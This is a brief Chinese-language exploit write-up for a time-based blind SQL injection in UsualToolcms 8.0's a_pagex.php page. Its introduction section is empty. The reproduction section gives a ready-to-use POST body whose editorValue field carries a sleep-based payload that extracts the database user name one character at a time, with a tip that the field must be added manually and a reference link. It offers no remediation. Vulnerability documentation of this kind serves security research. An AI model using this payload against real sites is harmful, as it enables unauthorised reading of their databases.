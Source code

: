 UsualToolcms 8.0 a\_pagex.php盲注
=================================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

### poc

![1.png](./resource/UsualToolcms8.0a_pagex.php盲注/media/rId25.png)

    pagename=test&istop=0&isbottom=0&title=test&webkey=test&description=test&editorValue=1'and if(ascii(substr(user(),1,1))=100,sleep(2),1)#&id=2&submit=%E7%BC%96%E8%BE%91

editorValue参数需要手动添加

![2.png](./resource/UsualToolcms8.0a_pagex.php盲注/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100

